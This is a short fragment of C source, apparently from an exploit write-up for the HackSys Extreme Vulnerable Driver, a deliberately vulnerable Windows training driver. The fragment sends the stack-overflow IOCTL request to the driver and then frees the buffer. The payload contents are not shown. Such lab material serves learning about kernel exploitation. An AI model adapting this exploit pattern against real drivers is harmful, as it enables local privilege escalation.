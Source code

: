 	printf("Sending IOCTL request\r\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		(LPVOID)lpInBuffer,
		(DWORD)nInBufferSize,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap

	printf("IOCTL request completed, cleaning up da heap.\r\n");
	HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
	return 0;
}
</pre>